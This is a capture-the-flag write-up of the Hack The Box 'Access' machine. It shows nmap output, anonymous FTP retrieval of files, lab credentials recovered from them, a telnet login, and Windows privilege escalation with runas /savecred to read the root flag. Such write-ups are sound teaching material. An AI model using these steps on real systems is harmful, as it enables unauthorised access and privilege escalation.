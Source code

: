 ```yaml
---
title: "Access - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
toc: true
hide_title: true
excerpt: ""
---
```


## Access
![](https://kar0nx.github.io/assets/images/writeup/adef7ad3d015a1fbc5235d5a201ca7d1.webp)
Tags: #Easy #Windows 
## Reconnaissance

IP: 10.10.10.98
### NMAP

```
nmap -T4 -p- -A 10.10.10.98
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 07:45 EST
Nmap scan report for 10.10.10.98
Host is up (0.031s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|8.1|Vista (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Embedded Standard 7 (91%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (89%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (89%)                                                                                            
No exact OS matches for host (test conditions non-ideal).                                                               
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: 27s

TRACEROUTE (using port 23/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.10.14.1
2   31.65 ms 10.10.10.98

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.46 seconds
```

Nmap shows 3 open ports 21 - FTP, 23 - telnet, and 80 - http.
Site is simple Windows ISS, so enumerate ftp.

## FTP

```
ftp 10.10.10.98
	anonymous
	anonymous
```

Anonymous login works great, and we have 2 files here, let's download it and check

```
binary 
cd backup
get backup.mdb
cd ..
cd engineer
get "access control.zip"
```

After long exploring backup db, I found credentials 

![[Pasted image 20250308134508.png]]

No one works with telnet but one is password for:

```
access control.zip  -- access4u@security
```

let's load output into outlook and explore. I found that password for security account has been changed

![[Pasted image 20250308135350.png]]

## Gaining Access
### Telnet

```
telnet 10.10.10.98
	security
	4Cc3ssC0ntr0ller
```

I manage to log in via telnet what gives low-level access as security user

![[Pasted image 20250308135559.png]]

![[Pasted image 20250308140051.png]]

We can grab first flag

```
type C:\Users\security\Desktop\user.txt
```

## Privilege Escalation

After gaining access to the machine, I looked for potential ways to escalate privileges. I discovered that I could use runas to run commands as the Administrator user by utilizing the /savecred option.

I used the following runas command to execute a command as Administrator and save the credentials:

```
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
                                                       Type: Domain Password
    User: ACCESS\Administrator
```

```
c:\windows\system32\runas.exe /user:ACCESS\Administrator /savecred "c:\windows\system32\cmd.exe /c TYPE c:\users\administrator\desktop\root.txt > c:\users\security\root.txt"
```

This command runs as the Administrator user and saves the output of root.txt to a location where the security user can access it.

After that we can type root.txt

```
C:\Users\security>type root.txt
```

